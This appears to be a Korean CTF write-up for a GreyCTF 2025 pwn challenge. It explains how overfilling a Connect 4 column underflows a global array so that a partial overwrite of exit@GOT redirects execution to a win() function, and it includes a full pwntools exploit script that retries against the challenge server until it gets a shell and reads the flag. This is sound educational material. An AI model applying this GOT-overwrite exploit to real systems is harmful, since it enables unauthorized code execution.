 ```yaml
---
tags: [ctf, write-up, pwn, system]		
---
```

![image.png](/assets/img/greyctf2025/image1.png)

---

해당 프로그램은 사용자의 입력을 받아 Connect 4 보드 게임을 시뮬레이션하는 콘솔 기반 프로그램이다. 플레이어는 8칸짜리 열(column)에 돌을 떨어뜨릴 수 있으며, 각 열은 최대 8개의 돌을 담을 수 있다. 이 제한을 초과하면 가장 아래의 돌이 제거되고 위의 돌들이 한 칸씩 아래로 내려오며 새로운 돌이 맨 위에 삽입된다.

게임 보드는 총 8행 8열(64바이트)의 크기를 가지며, 내부적으로 char board[8][8] 구조로 구현되어 있다. 하지만 열(column)에 8개 이상 돌을 삽입할 경우, 보드의 가장 아래에 있는 원소가 제거되면서 위의 값들이 내려오고, 새로운 값이 배열의 위(더 낮은 주소)인 board[-1][col]에 쓰이게 된다.

이를 코드를 통해 확인 해보면,

프로그램 내부에는 다음과 같은 전역 배열이 선언되어 있다.

```c
char board[8][8];
```

이는 총 64바이트(8행 × 8열) 크기의 2차원 배열로, 실제 메모리 상에는 연속된 메모리 공간으로 할당된다.

 

게임 중 사용자가 특정 열(column)에 8개 이상의 돌을 삽입하려고 하면, game() 함수 내부의 다음 코드가 실행된다

```c
int lastfree = 0;
while (board[lastfree][colint] == player1symbol || board[lastfree][colint] == player2symbol) {
    lastfree--;
}
```

위 코드에서 lastfree-- 연산이 경계 검사를 수행하지 않은 채 음수로 진행되므로, C언어의 특성상 board[-1][colint], board[-2][colint] 와 같은 배열 범위 밖의 메모리에 쓰기(write)가 발생하게 된다. 이는 스택 또는 전역 영역의 언더플로우에 해당하며, 인접한 전역 변수를 덮는 데 사용될 수 있다.

이 언더플로우 취약점을 이용해 보드 배열보다 위쪽 메모리에 위치한 중요한 구조체, 특히 GOT(Global Offset Table) 항목을 덮는 것이 가능하다. 

![image.png](/assets/img/greyctf2025/image2.png)

```
[exit@GOT]
    ↑       ← board[-8][col]
    │
[ board[0][0] ]
    ↓
[ board[7][7] ]
```

위의 이미지와 그림을 참고하면, exit@GOT 주소가 board[0][0]보다 64바이트 위쪽에 위치해 있는 것을 확인할 수 있다. 즉, 같은 열에 16개 이상의 돌을 삽입하면 board[-8][0] 위치에 접근할 수 있으며, 이는 exit@GOT 주소를 덮는 것과 동일하다.

이 프로그램은 종료 시 exit() 함수를 호출한다. 따라서 exit@GOT의 값을 조작하려 win()로 리디렉션하면 쉘 획득이 가능하다.

![image.png](/assets/img/greyctf2025/image3.png)
PIE(Position Independent Executable)가 적용되어있기 때문에 해당 바이너리의 모든 섹션(.text, .got, .bss 등)은 실행 시 무작위 PIE base에 따라 재배치된다. 따라서 win() 함수의 절대 주소도 실행할 때마다 바뀌지만, .text 섹션 내 오프셋은 고정되어 있어 하위 12비트(즉, 하위 2바이트)는 변하지 않는다.

```bash
pwndbg> p win
$1 = 0x555555555fc9 <win>
```

win() 함수는 .text 기준 고정 오프셋인 0x5fc9에 존재한다.

exit@GOT는 프로그램 실행 초기에는 아직 실제 libc의 exit() 주소가 기록되지 않은 상태이다.

exit()이 호출되면, PLT의 stub가 동작하여 GOT를 참조하지만, 우리가 그 이전에 GOT 항목의 하위 2바이트만 win()의 offset으로 덮으면, 해당 위치로 프로그램 흐름이 리디렉션된다.

이 stub 주소도 .text 섹션 내부에 존재하므로, 마찬가지로 PIE base가 동일하게 적용된다.

결과적으로 exit@GOT에 저장된 초기값과 win() 함수는 모두 동일한 PIE base를 공유하고 있으므로,

상위 6바이트가 동일하게 되고, 하위 2바이트만 덮으면 정확히 win() 주소로 리디렉션할 수 있다.

여기서 중요한 것은 알아낸 win의 주소는 PIE base가 0x555555554000일 때의 기준, 오프셋 1fc9가 적용된 값이다.

ASLR이 적용된 경우 PIE base는 0x5555555554xxx 까지가 변경되므로, 리모트 환경에서 win()함수의 하위 2바이트는 5fc9가 아닐수도 있다.

ex)

```bash
PIE base = 0x5555555557000 // 끝에 000은 고정
win() = 0x5555555558fc9 // 하위 2바이트가 8fc9
```

따라서 ASLR이 적용된 PIE base의 하위 2바이트가 4000으로 끝날 때까지 익스코드를 반복 실행하여야 한다. 

### 익스 흐름

1. 초기 심볼로 b'\xc9'와 b'\x5f'을 설정하여, 언더플로우 시 리틀 엔디안 순서로 0x5fc9가 exit@GOT에 기록되도록 한다.
2. send_positions() 함수를 통해 특정 열(ex: 0번, 1번)에 번갈아가며 총 16개의 돌을 삽입하면,
    
    board[-8][col]까지 접근 가능해져 exit@GOT의 값을 덮을 수 있다.
    
3. 이후 프로그램이 exit()을 호출할 때(0~7을 제외한 값을 보내면 호출됨), GOT를 통해 참조되는 주소가 우리가 덮은 0x5fc9이므로, 실제로는 win() 함수가 호출되어 쉘을 획득하게 된다.
4. 쉘 획득에 실패할 경우 반복한다.

### exploit.py

```c
from pwn import process, remote
import sys

def send_positions(p, one, two):
    print(f"Sending positions: {one} and {two}")
    p.recvuntil(b"> ")
    p.sendline(one)
    p.recvuntil(b"> ")
    p.sendline(two)

def got_shell(p):
    p.recvuntil(b"> ")
    p.sendline(b"a")
    p.sendline(b"echo success")

    try:
        p.recvuntil(b"success", timeout=20)
        return True
    except EOFError:
        return False

ctr = 0

while True:
    ctr += 1

    try:
        p = remote("challs.nusgreyhats.org", port=33102, timeout=15)
        
        send_positions(p, b"\xc9", b"\x5f")
        for i in range(16):
            if i % 2 == 0:
                send_positions(p, b"0", b"1")
            else:
                send_positions(p, b"1", b"0")

        p.sendline(b"")

        if got_shell(p):
            print(f"[+] success (try {ctr})")
            p.sendline(b"cat flag.txt")
            print(p.recvuntil(b"}").decode().strip())
            sys.exit()
        else:
            print(f"[-] failed (try {ctr})")
            p.close()

    except (BrokenPipeError, EOFError) as e:
        print(f"[!] Connection error on try {ctr}: {e}")
        try:
            p.close()
        except:
            pass
        continue

```

![image.png](/assets/img/greyctf2025/image4.png)